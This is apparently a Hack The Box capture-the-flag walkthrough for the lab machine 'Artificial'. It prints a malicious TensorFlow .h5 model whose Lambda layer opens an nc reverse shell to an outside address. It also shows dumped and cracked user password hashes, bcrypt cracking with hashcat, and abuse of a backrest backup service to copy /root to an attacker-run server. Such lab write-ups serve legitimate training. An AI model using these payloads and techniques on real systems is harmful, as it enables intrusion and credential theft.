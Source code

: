 ```yaml
---
name: Artificial
difficulty: easy
os: linux
platform: htb
date: 2025/07/28
releasedDate: 2099-12-31
userFlag: true
rootFlag: true

img: https://labs.hackthebox.com/storage/avatars/e6633d6c2b1d824c3756eb21aeed7590.png
---
```


## Enumeration

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports:
```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.74 -o content/allPortsFiltered
```
```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```
We can see that ports 22 (SSH) and 80 (HTTP) are open.

When accessing `http://10.10.11.74` it redirects to `http://artificial.htb`, which is a custom domain. We need to add this domain to our `/etc/hosts` file:
```bash
echo "10.10.11.74 artificial.htb" | sudo tee -a /etc/hosts
```

Now we can access the web server using the custom domain `http://artificial.htb`.

We create an account in the web application, which is a simple login page. After creating an account, we can log in with the credentials we set.

For the directory enumeration, we can use tools like `gobuster` or `dirb` to find hidden directories and files.
```bash
gobuster dir -u http://artificial.htb -w /usr/share/wordlists/dirb/common.txt
```
```
/dashboard            (Status: 302) [Size: 199] [--> /login]
/login                (Status: 200) [Size: 857]
/logout               (Status: 302) [Size: 189] [--> /]
```
There are no interesting hidden directories. All of them are related to the web app functionality.


## User Exploitation

After registering and logging in, we can access the `/dashboard` page. The dashboard contains a form to upload `.h5` files.

We can generate a malicious `.h5` file that contains a payload to execute arbitrary code. We will use this github repository, `https://github.com/Splinter0/tensorflow-rce` to create the file.

We add use the docker image provided in the repository to generate the `.h5` file:
```bash
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.90 4444 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

We upload the generated `.h5` file to the web application. The application processes the file and executes the payload, which opens a reverse shell to our machine. 

We can read the database and find all users and their hashed passwords. The database is stored in a file called `instance/users.db`.
``` 
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
2|mark|mark@artificial.htb|0f3d8c76530022670f1c6029eed09ccb
3|robert|robert@artificial.htb|b606c5f5136170f15444251665638b36
4|royer|royer@artificial.htb|bc25b1f80f544c0ab451c02a3dca9fc6
5|mary|mary@artificial.htb|bf041041e57f1aff3be7ea1abd6129d0
```

We use `https://crackstation.net/` to crack the password hashes. After cracking, we find the following credentials
```bash
gael:mattp005numbertwo
royer:marwinnarak043414036
```

We use gael's credentials to log in though SSH:
```bash
ssh gael@artificial.htb
```

Then, we can read the user flag:
```bash
cat /home/gael/user.txt
```
```
user flag value
```

## Root Privilege Escalation

We do id to check the privileges of the user `gael`:
```bash
id
```
```
uid=1000(gael) gid=1000(gael) groups=1000(gael),1007(sysadm)
```

We look for files/directories with sysadm ownership:
```bash 
ls -la / | grep -n10 sysadm
```
```
265127-/var/backups:
265128-total 51220
265129--rw-r--r-- 1 root root      38602 Jun  9 10:48 apt.extended_states.0
265130--rw-r--r-- 1 root root       4253 Jun  9 09:02 apt.extended_states.1.gz
265131--rw-r--r-- 1 root root       4206 Jun  2 07:42 apt.extended_states.2.gz
265132--rw-r--r-- 1 root root       4190 May 27 13:07 apt.extended_states.3.gz
265133--rw-r--r-- 1 root root       4383 Oct 27  2024 apt.extended_states.4.gz
265134--rw-r--r-- 1 root root       4379 Oct 19  2024 apt.extended_states.5.gz
265135--rw-r--r-- 1 root root       4367 Oct 14  2024 apt.extended_states.6.gz
265136:-rw-r----- 1 root sysadm 52357120 Mar  4 22:19 backrest_backup.tar.gz
```
We find a file called `/var/backups/backrest_backup.tar.gz` owned by `root:sysadm`. It looks like a compressed backup file. We can extract it to see its contents:
```bash
tar -xvf /var/backups/backrest_backup.tar.gz
```
```
backrest/
backrest/restic
backrest/oplog.sqlite-wal
backrest/oplog.sqlite-shm
backrest/.config/
backrest/.config/backrest/
backrest/.config/backrest/config.json
backrest/oplog.sqlite.lock
backrest/backrest
backrest/tasklogs/
backrest/tasklogs/logs.sqlite-shm
backrest/tasklogs/.inprogress/
backrest/tasklogs/logs.sqlite-wal
backrest/tasklogs/logs.sqlite
backrest/oplog.sqlite
backrest/jwt-secret
backrest/processlogs/
backrest/processlogs/backrest.log
backrest/install.sh
```

In `backrest/.config/backrest/config.json` we find the following content:
```json
{
  "modno": 2,
  "version": 4,
  "instance": "Artificial",
  "auth": {
    "disabled": false,
    "users": [
      {
        "name": "backrest_root",
        "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
      }
    ]
  }
}
```

This Bcrypt password is coded in base64. We can decode it to get the actual Bcrypt hash:
```bash
echo "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP" | base64 -d
```
```
$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO
```

Bcrypt is an algorithm used for hashing passwords. The password for the user `backrest_root` is hashed using bcrypt. We can use a tool like `hashcat` or `john the ripper` to crack the password.
```bash
hashcat -m 3200 password.txt /usr/share/wordlists/rockyou.txt
```
```
hash: $2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO
password: !@#$%^
```

We find that there is a backrest service running on internal port 9898. We can use `ssh` to port forward this port to our local machine:
```bash
ssh -L 9898:localhost:9898 gael@artificial.htb
```

Now we can access the backrest service on our local machine at `http://localhost:9898`.
We can log in using the credentials `backrest_root:!@#$%^`.


Create a new repo in the backrest service connecting it to a local rest service.
Create a plan which copies `/root` to the remote repo.

We create a initialize rest server:
```bash
RPORT=12345
NAME=backup_name
./rest-server --listen ":$RPORT"
```

We create a new repository in the local rest server:
```bash
restic init -r "rest:http://localhost:$RPORT/$NAME"
```

We create a new repository in the backrest service:
```
Repo Name: backup
Repository URL -> rest:http://10.10.14.175:9321/backup
Password: wak
```

We create a plan in the backrest service:
```
Plan Name: backup
Repository: backup
Path: /root
```

We run the plan to copy the `/root` directory to the remote repository:
```
Backup Now
```

When the backup is complete, we can check the contents of the local rest repository:
```bash
restic restore -r "/tmp/restic/backup" latest --target .
```

We enter the password `wak` when prompted. This will restore the contents of the `/root` directory to the current directory.

We can now read the root flag:
```bash
cat root/root.txt
```
```
root flag value
```

## Conclusion


